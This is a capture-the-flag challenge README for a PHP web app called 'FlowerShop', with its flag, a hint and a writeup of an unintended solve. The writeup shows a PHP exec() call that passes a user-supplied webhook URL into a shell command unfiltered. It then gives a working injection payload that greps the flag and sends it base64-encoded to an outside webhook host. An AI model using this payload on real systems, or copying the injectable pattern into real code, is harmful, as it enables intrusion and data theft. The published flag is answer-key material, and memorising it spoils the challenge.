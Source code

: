 # FlowerShop
For help setting the challenge up, go to `INSTALL.md`

### Include files:
- FlowerShop.zip

### Description
Flowers! 

Flag format: CACI{}

### Difficulty
unintended: 5/10

intended: 10/10

### Flag
`CACI{y0uv3_f0und_th3_rar3st_s33d_0f_all!}`

### Hints
1. seeds are very important in the flower business

### Author
CACI SPONSORED CHALLENGE
Daniel Getter (NihilistPenguin)

### Tester
None yet

### Writeup
#### UNINTENDED SOLVE:
This challenge was initially designed to be run in a container per team, but due to infrastructure limitations, we had a shared instance of the web app. Luckily for us, I suck at PHP dev and wrote in a command injection that I never fixed. Without this vuln, this challenge would be impossible to solve using the intended method.

classes/reset.class.php has command injection on `$this->wh`, as it's user-controlled non-filtered input:
```php
exec("php ../scripts/send_pass.php " . $this->tmpPass . " " . $this->wh . " > /dev/null 2>&1 &");
```

When signing up a user, add a parameter with bash command injection to your webhook URL, and submit a reset request. 
```
https://webhook.site/ceec0a12-ebd4-4dbc-b91d-66d03d3f397e?a=`grep${IFS}CACI${IFS}../admin.php${IFS}|${IFS}base64
```

You should get a request with the base64'd result in the param:
```
https://webhook.site/60de2023-dc15-40bf-a6eb-c0c458d282a4?a=ICAgICAgICA8aDM+Q0FDSXt5MHV2M19mMHVuZF90aDNfcmFyM3N0X3MzM2RfMGZfYWxsIX08L2gz
```
```bash
$ echo ICAgICAgICA8aDM+Q0FDSXt5MHV2M19mMHVuZF90aDNfcmFyM3N0X3MzM2RfMGZfYWxsIX08L2gz | base64 -d    
<h3>CACI{y0uv3_f0und_th3_rar3st_s33d_0f_all!}</h3
```
You can do anything with this command injection, like a full-blown reverse shell if you want.

---